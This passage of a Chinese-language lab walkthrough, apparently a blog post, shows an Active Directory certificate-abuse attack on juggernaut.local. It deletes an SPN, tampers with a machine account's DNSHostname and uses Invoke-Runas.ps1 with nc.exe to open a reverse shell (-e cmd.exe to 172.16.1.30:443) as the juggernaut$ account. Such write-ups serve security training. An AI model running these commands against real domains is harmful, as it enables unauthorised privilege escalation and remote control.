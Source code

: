     setspn -d RestrictedKrbHost/juggernaut.juggernaut.local juggernaut
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183955724-753945510.png)

现在 SPN 已被删除，让我们再次使用之前的命令篡改 DNSHostname 属性，看看这次能否成功。

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183955935-1749793129.png)

命令执行虽提示成功，但还需要进一步确认。

    Get-MachineAccountAttribute -MachineAccount juggernaut -Attribute DnsHostName
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956366-801674863.png)

Perfect！现在我们已经成功篡改了新计算机账户的 DNSHostname 属性，接下来就可以使用 certify.exe 来申请证书了。

#### **

5.2、申请证书

**

为了使用 Certify 为计算机账户 `juggernaut$` 申请证书，我们需要处在计算机帐户 `juggernaut$` 的上下文 shell 中通过 Certify 发出请求才行。此时，我们会遇到了如下一些问题：

*   问题一：计算机账户没有执行交互式登录的权限，也就是说不能像普通用户那样通过 runas 进行登录。
*   问题二：当前的环境是纯反向 shell，没有 GUI 交互界面。也就意味着无法使用 runas。

runas 携带 `/netonly` 选项倒是可以间接解决上面的问题一，但由于需要交互式输入密码因此不满足问题二。

> 注：`runas /netonly` 功能示例说明。
> 
> 假设你当前使用的是本地用户 `LOCAL-PC\Alice` 登录，但你要访问公司域资源，需要域用户 `CORP\Bob` 的权限，可以这样运行：`runas /netonly /user:CORP\Bob "cmd.exe"`。这样得到的 cmd shell，在本地依然是 Alice 的身份，但是在访问网络共享 `\\fileserver\share` 时，会使用 `CORP\Bob` 的身份。

[Invoke-Runas.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1) 是一个 powershell 的脚本，它不仅允许我们在执行 runas 命令时指定登录类型，同时还不需要交互式登录，完美的解决了上面遇到的两个问题。而这也正是我们要找的工具，接下来我们便要好好的使用它了。

> 注：[runascs.exe](https://github.com/antonioCoco/RunasCs) 也支持指定登录类型，也能解决问题一二。

下载 Invoke-Runas.ps1 和 nc.exe 的副本并将其传输到受害者机器，然后利用该脚本以 `juggernaut$` 机器帐户的身份为我们提供一个反向 shell ，然后在该 shell 的环境下来请求我们的证书，命令如下：

    . .\Invoke-Runas.ps1
    
    Invoke-Runas -User "juggernaut$" -Password "P@ssw0rd" -Domain "juggernaut.local" -Binary "C:\temp\nc.exe" -Args " 172.16.1.30 443 -e cmd.exe" -LogonType "0x2"
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956341-2098160731.png)

> **请注意**，设置 -Args 时，第一个双引号后必须要有一个空格。否则，命令将不起作用。

命令执行之后，回到 nc 监听器，可以看到我们得到了一个 shell，efrost ？？

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956261-852301928.png)
